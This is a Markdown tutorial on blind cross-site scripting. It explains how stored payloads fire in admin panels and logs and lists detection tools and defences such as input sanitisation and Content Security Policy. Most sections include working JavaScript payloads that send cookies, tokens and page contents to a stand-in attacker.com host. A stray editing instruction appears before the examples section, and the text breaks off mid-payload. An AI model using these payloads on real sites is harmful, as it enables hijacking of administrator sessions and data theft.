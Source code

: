 

# **Blind XSS (In-Depth)**

## **Introduction to Blind XSS**
Blind XSS is a type of Cross-Site Scripting (XSS) attack where the attacker's payload is stored and executed in a different context than where it was injected, often in an admin panel or backend system. Unlike traditional stored XSS, the attacker does not immediately see the result of the payload execution.

### **Key Characteristics:**
- **Delayed Execution**: The payload triggers at a later time when accessed by another user (e.g., an admin).
- **No Immediate Feedback**: The attacker does not see the response directly.
- **Harder to Detect**: Since the payload executes in a different context, traditional scanners may miss it.

---

## **How Blind XSS Works**
1. **Payload Injection**: Attacker submits malicious input (e.g., via contact forms, comments, or user profiles).
2. **Storage on Server**: The input is stored in a database or log file.
3. **Triggered Execution**: When an admin or another privileged user views the stored data, the payload executes.
4. **Exfiltration of Data**: The payload sends sensitive information (cookies, session tokens) back to the attacker.

---

## **Common Attack Vectors**
1. **Admin Dashboards**  
   - Admin panels often review user-submitted data (e.g., support tickets, logs).
2. **Log Files**  
   - Web servers store logs that may include malicious input.
3. **User Profiles**  
   - Some systems allow HTML/JS in profile fields that admins review.
4. **Feedback Forms**  
   - Attackers submit malicious scripts that execute when reviewed.

---

## **Exploiting Blind XSS**
### **(1) Crafting Payloads**
Since feedback is delayed, attackers use callback mechanisms:
```html
<script>
  fetch('https://attacker.com/steal?data=' + document.cookie);
</script>
```
Or use services like:
- **[XSS Hunter](https://xsshunter.com/)** – Automates blind XSS detection.
- **[Interact.sh](https://interact.sh/)** – Checks for out-of-band interactions.

### **(2) Testing with Delayed Callbacks**
Instead of `alert()`, use:
```javascript
new Image().src="http://attacker.com/log?data="+encodeURIComponent(document.cookie);
```


---

### **(3) Advanced Payload Techniques**  
Blind XSS often requires evasion and persistence:  
- **DOM-Based Exfiltration**:  
  ```javascript
  document.addEventListener('DOMContentLoaded', () => {
    navigator.sendBeacon('https://attacker.com/collect', window.location.href);
  });
  ```
- **Session Hijacking**:  
  ```javascript
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({cookie: document.cookie, localStorage: localStorage})
  });
  ```

- **Delayed Triggers**:  
  ```javascript
  setTimeout(() => {
    window.location.href = 'https://attacker.com/redirect?data=' + btoa(document.documentElement.innerHTML);
  }, 5000); // Executes after 5 seconds
  ```

---

### **(4) Using Blind XSS Tools**  
Automate detection with:  
- **XSS Hunter** – Hosted service that captures callbacks (screenshots, cookies, DOM).  
- **Burp Collaborator** – Built into Burp Suite for out-of-band testing.  

Example payload for XSS Hunter:  
```html
<script src="https://xsshunter.com/yourpayload.js"></script>
```

---

## **Defending Against Blind XSS**  

### **(1) Input Sanitization**  
- Use libraries like `DOMPurify` to sanitize HTML/JS in user inputs.  
- Encode outputs with context-aware escaping (HTML, JavaScript, URL).  

### **(2) Content Security Policy (CSP)**  
Restrict script execution:  
```http
Content-Security-Policy: default-src 'self'; script-src 'none'; connect-src 'none';
```
Prevents data exfiltration via `fetch()` or `<img src="attacker.com">`.  

### **(3) Monitoring and Logging**  
- Audit admin panels/logs for suspicious scripts.  
- Implement WAF rules to block known XSS payloads.  

### **(4) Least Privilege for Admin Views**  
- Render user-submitted content as plain text in admin dashboards.  
- Use iframes with sandbox attributes for unsafe content.  

---

## **Real-World Examples**  
Continue From Real-World Examples and and append dont write from the start

 ## **Real-World Examples of Blind XSS Attacks**

### **1. Ticket Support Systems (Zendesk, Freshdesk)**
- **Scenario**: An attacker submits a malicious ticket with a JavaScript payload in the "description" field.
- **Execution**: When a support agent views the ticket in the admin panel, the payload executes, stealing their session cookie.
- **Impact**: Attacker gains unauthorized access to the support system and potentially customer data.

**Payload Used**:
```html
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>
```

---

### **2. Web Application Logs (Apache/Nginx)**
- **Scenario**: An attacker injects a payload into HTTP headers (e.g., `User-Agent` or `Referer`).
- **Execution**: The payload is stored in server logs. When an admin reviews logs via a web interface, the script triggers.
- **Impact**: Sensitive server/application data is exfiltrated.

**Payload Used**:
```javascript
<img src=x onerror="navigator.sendBeacon('https://attacker.com/log', window.location.href)">
```

---

### **3. User Profiles with Admin Moderation**
- **Scenario**: A social media platform allows users to embed HTML in bios, which admins review before approval.
- **Execution**: The attacker submits a malicious profile with a hidden XSS payload. When an admin views it, the script runs.
- **Impact**: Admin accounts are compromised, leading to privilege escalation.

**Payload Used**:
```html
<svg onload="fetch('https://attacker.com/hijack?data=' + localStorage.getItem('token'))">
```

---

### **4. CMS Admin Panels (WordPress, Joomla)**
- **Scenario**: A WordPress plugin stores unfiltered user comments in the database.
- **Execution**: The payload fires when an admin reviews "pending comments" in `/wp-admin`.
- **Impact**: Attackers gain admin access to the CMS.

**Payload Used**:
```javascript
<script src="https